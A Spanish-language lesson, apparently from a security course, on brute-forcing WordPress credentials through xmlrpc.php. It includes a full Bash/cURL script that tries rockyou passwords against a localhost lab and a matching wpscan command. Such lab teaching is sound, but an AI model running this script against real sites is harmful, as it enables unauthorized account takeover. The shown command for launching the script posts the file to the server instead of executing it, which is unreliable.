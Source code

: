 En esta clase, veremos cómo abusar del archivo **xmlrpc.php** para mediante la creación de un script de Bash aplicar fuerza bruta. El objetivo de este ejercicio será demostrar cómo los atacantes pueden utilizar este archivo existente en WordPress para intentar descubrir credenciales válidas y comprometer la seguridad del sitio web.

Para lograrlo, crearemos un script de Bash en el cual emplearemos la herramienta cURL para enviar solicitudes XML-RPC al archivo xmlrpc.php del sitio web WordPress. A través del método **wp.getUsersBlogs**, enviaremos una estructura XML que contendrá el nombre de usuario y la contraseña a probar.

En caso de que las credenciales no sean correctas, el servidor responderá con un mensaje de error que indica que las credenciales son incorrectas. Sin embargo, si las credenciales son válidas, la respuesta del servidor será diferente y no incluirá el mensaje de error.

De esta forma, podremos utilizar la respuesta del servidor para determinar cuándo hemos encontrado credenciales válidas y, de esta forma, tener acceso al sitio web de WordPress comprometido.

Cabe destacar que el método wp.getUsersBlogs **no es el único método existente**, ni mucho menos la única vulnerabilidad en xmlrpc.php. Existen otros métodos como **wp.getUsers**, **wp.getAuthors** o **wp.getComments**, entre otros, que también pueden ser utilizados por atacantes para realizar ataques de fuerza bruta y comprometer la seguridad del sitio web de WordPress.

Por lo tanto, es importante tener en cuenta que la seguridad de un sitio web de WordPress no solo depende de tener contraseñas seguras y actualizadas, sino también de estar atentos a posibles vulnerabilidades en el archivo xmlrpc.php y otras áreas del sitio web.

### Script de bash
```bash
#!/bin/bash

function ctrl_c() {
  echo -e "\n\n[!] Exiting""\n"
  exit 1
}

#Ctrl+C
trap ctrl_c SIGINT

function createXML() {
  password=$1

  xmlFile="""
<?xml version=\"1.0\" encoding=\"UTF-8\"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>andres</value></param> 
<param><value>$password</value></param> 
</params> 
</methodCall>
"""

  echo $xmlFile >file.xml

  response=$(curl -s -X POST "http://localhost:31337/xmlrpc.php" -d@file.xml)

  if [ ! "$(echo $response | grep 'Incorrect username or password.')" ]; then
    echo "Password found: $password"
    exit 0
  fi
}

cat /usr/share/wordlists/rockyou.txt | while read password; do
  createXML $password
done
```
### Lo ejecutamos con: 
```bash
 curl -s -X POST "http://localhost:31337/xmlrpc.php" -d@script.sh
```
#### Si lo ejecutamos con WPSCAN
```bash
wpscan --url http://localhost:31337 -U andres -P /usr/share/wordlists/rockyou.txt
```
